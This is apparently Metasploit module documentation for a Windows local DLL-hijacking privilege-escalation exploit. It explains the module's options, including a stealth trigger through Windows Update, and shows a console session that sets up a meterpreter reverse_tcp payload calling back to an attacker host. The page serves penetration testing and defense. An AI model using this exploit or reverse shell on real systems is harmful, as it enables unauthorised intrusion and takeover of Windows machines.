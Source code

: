 ## Options
### WRITABLE_PATH_DIR
The full path to a writable %PATH% directory to write the payload to. If this is not set,
the module will enumerate the %PATH% directories and try to find one that is writable by the current user.
### STEALTH_ONLY
If this is enabled, the module will only exploit the target if this is possible by triggering the payload via the
`WUAUCLT /DetectNow` command, which will launch Windows Update in the background.
This means that exploitation will not proceed if Windows Update is set to never check for updates on the target.
### WAIT_FOR_TOWORKER
The number of minutes to wait for TiWorker.exe to finish running if it is already active (because the exploit won't work if it is).
The default value is 0.

## Scenarios
### Windows 2012 x64 - %PATH% enumeration (default) with Verbose set to true
```
msf exploit(windows/local/srclient_dll_hijacking) > sessions

Active sessions
===============

  Id  Name  Type                     Information                               Connection
  --  ----  ----                     -----------                               ----------
  3         meterpreter x64/windows  WIN-FCDUOQDT1NB\wynter @ WIN-FCDUOQDT1NB  192.168.91.12:8443 -> 192.168.91.16:49157 (192.168.91.16)

msf exploit(windows/local/srclient_dll_hijacking) > show options 

Module options (exploit/windows/local/srclient_dll_hijacking):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   SESSION            3                yes       The session to run this module on.
   STEALTH_ONLY       false            no        Only exploit if the payload can be triggered without launching the Windows Update UI)
   WAIT_FOR_TIWORKER  0                no        No. of minutes to wait for TiWorker.exe to finish running if it is already active.
   WRITABLE_PATH_DIR                   no        Path to a writable %PATH% directory to write the payload to.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.91.12    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows Server 2012 (x64)
```